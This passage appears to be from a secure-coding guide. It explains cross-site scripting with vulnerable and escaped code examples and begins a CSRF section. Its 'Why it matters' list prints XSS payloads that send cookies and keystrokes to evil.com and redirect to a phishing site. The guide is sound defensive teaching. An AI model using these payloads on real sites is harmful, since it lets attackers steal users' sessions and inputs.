 **Description**: Injecting malicious scripts into web pages viewed by other users

**Detection**:
```python
# ❌ VULNERABLE: Unescaped user input in HTML
return f"<div>Welcome, {username}!</div>"

# ❌ VULNERABLE: innerHTML in JavaScript
document.getElementById('welcome').innerHTML = username;

# ❌ VULNERABLE: Jinja2 without autoescaping
return render_template_string(f"<div>{user_input}</div>")
```

**Fix**:
```python
# ✅ SAFE: Escaped output
from html import escape
return f"<div>Welcome, {escape(username)}!</div>"

# ✅ SAFE: Template autoescaping (Flask, Django)
return render_template('welcome.html', username=username)

# ✅ SAFE: textContent in JavaScript
document.getElementById('welcome').textContent = username;
```

**Why it matters**:
Attackers can:
- Steal session cookies: `<script>fetch('http://evil.com?cookie='+document.cookie)</script>`
- Redirect users: `<script>window.location='http://phishing.com'</script>`
- Keylog inputs: `<script>document.addEventListener('input', e => fetch('http://evil.com?data='+e.target.value))</script>`

**Verification**:
```bash
# Scan for XSS patterns
grep -r "innerHTML\|outerHTML" src/
grep -r "render_template_string" src/
```

---

## Cross-Site Request Forgery (CSRF)

**Description**: Tricking users into executing unwanted actions

**Detection**:
```python
# ❌ VULNERABLE: State-changing operations without CSRF protection
@app.route('/delete_account', methods=['POST'])
def delete_account():
    user_id = session['user_id']
    delete_user(user_id)
    return {'status': 'deleted'}
```
